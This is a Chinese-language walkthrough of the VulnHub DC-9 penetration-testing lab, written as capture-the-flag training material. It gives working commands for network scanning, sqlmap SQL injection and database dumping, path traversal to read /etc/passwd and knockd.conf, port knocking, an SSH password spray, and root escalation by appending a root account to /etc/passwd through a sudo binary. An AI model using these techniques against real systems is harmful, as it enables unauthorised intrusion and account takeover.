







# DC9-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-9,412/

**Description**

DC-9 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-9 is a VirtualBox VM built on Debian 64 bit, but there shouldn't be any issues running it on most PCs.

DC-9 has been tested successfully on VMWare Player, but if there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox or VMWare and away you go.

**知识点**
- knock 服务

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```



排除法,去掉自己、宿主机、网关, `192.168.141.143` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.143
```



web 和 ssh,不多说了,从 web 开始

---

# 中期-漏洞利用

发现一个搜索框,抓个包另存为 1.txt,sqlmap 跑跑看有没有 POST 注入



```
sqlmap -r 1.txt
```



运气挺好,直接拖库
```bash
sqlmap -r 1.txt --dbs
sqlmap -r 1.txt -D Staff --dump
sqlmap -r 1.txt -D users --dump
```


Staff 库跑出了个 hash `856f5de590ef37314e7c3bdf6f8a66dc` transorbital1 ,users 库跑出了一堆账号密码

登录试试,使用 admin transorbital1 ,可以登录,users 库里的一堆账号密码不行


最底下提示 `File does not exist`,可能有文件包含,但是没有任何参数,估计要 Fuzz 参数了,和 DC5 一样,准备好字典,burp 跑起来


参数 `file` 和 DC5 一样


看看 passwd



看到了熟悉的用户,刚刚 mysql 中 dump 的就有这些用户,试试 SSH 能不能直接登录
```
marym        3kfs86sfd
julied       468sfdfsd2
fredf        4sfd87sfd1
barneyr      RocksOff
tomc         TC&TheBoyz
jerrym       B8m#48sd
wilmaf       Pebbles
bettyr       BamBam01
chandlerb    UrAG0D!
joeyt        Passw0rd
rachelg      yN72#dsd
rossg        ILoveRachel
monicag      3248dsds7s
phoebeb      smellycats
scoots       YR3BVxxxw87
janitor      Ilovepeepee
janitor2     Hawaii-Five-0
```


什么鬼,怎么连不上去,google 了半天,原来是用一个叫 knock 服务保护 SSH,按特定的访问端口才可以访问服务,淦,找一下 knock 的配置文件吧.

`http://192.168.141.143/manage.php?file=../../../../etc/knockd.conf`


开门,社区送温暖
```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.141.143; done
nmap -T5 -A -v -p- 192.168.141.143
```

ok,开了,连接试试


试出3个账号可以连接
```
chandlerb   UrAG0D!
joeyt       Passw0rd
janitor     Ilovepeepee
```

---

# 后期-提权

挨个登录,在 joeyt home 目录下发现了个隐藏目录 普京的密码 (作者你认真的嘛？🤣)
```bash
ls -la
```




拿这个密码表在测一次 SSH
```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

跑出一个新用户,登录看能不能提权
```
fredf   B4-Tru3-001
```

```bash
sudo -l
```


看看 `/opt/devstuff/dist/test/test` 是啥
```bash
cd /opt/devstuff/dist/test/
type test
```


一个二进制文件,运行提示我 test.py



找一下 test.py
```bash
cd /tmp
find / -name test.py > a.txt
cat a.txt
```


2个 test.py,不过我估计 `/opt/devstuff/test.py` 才是我们需要的
```bash
cat /opt/devstuff/test.py
```


看起来是 test 的源码,功能是添加输入到目标的最后

那么接下来就简单了,直接向 passwd 文件中写用户,或直接向 sudo 配置文件写 ALL 都是可以提权的
```bash
echo 'test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/test
cd /opt/devstuff/dist/test/
sudo ./test /tmp/test /etc/passwd
su test
Password: toor

cd /root
ls
cat theflag.txt
```


提权成功,感谢作者 @DCUA7 制作的 DC 系列靶机
